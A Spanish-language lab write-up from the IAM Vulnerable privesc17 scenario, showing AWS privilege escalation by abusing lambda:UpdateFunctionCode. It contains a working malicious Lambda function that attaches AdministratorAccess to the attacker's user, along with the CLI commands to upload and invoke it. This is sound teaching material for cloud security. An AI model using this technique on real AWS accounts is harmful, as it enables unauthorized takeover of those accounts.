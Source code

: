 # EditExistingLambdaFunctionWithRole

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc17.  Para la correcta elevación de privilegios, depende de la interacción de otro usuario o de que la función actualizada sea ejecutada.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc17
{% endembed %}

Un atacante con el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> podría actualizar el código en una función Lambda existente con un rol de IAM adjunto para que importara la biblioteca de AWS relevante en ese lenguaje de programación y la usara para realizar acciones en nombre de ese rol.

### Configuración Inicial

Usuario del laboratorio: privesc17- EditExistingLambdaFunctionWithRole-user con los permisos:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener una función Lambda existente, con un rol adjunto que tenga el permiso <mark style="color:green;">iam:AttachUserPolicy.</mark>

Tambien es necesario tener en la infraestructura de pruebas un lambda ya configurado con cualquier funcionalidad con el rol a cual se va a asociar:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario del laboratorio

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



### Explotación

En este escenario, se va a utilizar el privilegio del usuario <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> para actualizar una función de lambda existente y añadirle código malicioso encargado de adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda maliciosa es la siguiente.

{% code title="lambda_function.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context): 
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17- EditExistingLambdaFunctionWithRole-user', 
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo de la nueva función lambda se usará el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> es necesario llamar el archivo <mark style="color:green;">**lambda\_function.py**</mark> y luego comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip.**</mark> Después ejecutar el código:

{% code overflow="wrap" %}
```
aws lambda update-function-code --function-name FuncionHelloWorld --zip-file fileb://function.zip --profile privesc17
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Cuando se ejecuta la función, se elevan los privilegios del atacante. Si el atacante tiene el permiso <mark style="color:green;">**lambda:InvokeFunction**</mark>, entonces es posible simplemente invocar la función directamente. De lo contrario, ocurrirá cuando otro usuario o servicio ejecute la función. En el siguiente ejemplo, otro usuario ejecuta la función.

El siguiente comando muestra a otro usuario de AWS invocando la lambda.

```
aws lambda invoke --function-name FuncionHelloWorld output.txt --profile other
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Finalmente ejecutando iam list attached user policies, podemos observar como el usuario inicial a ganado permisos de administrador:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



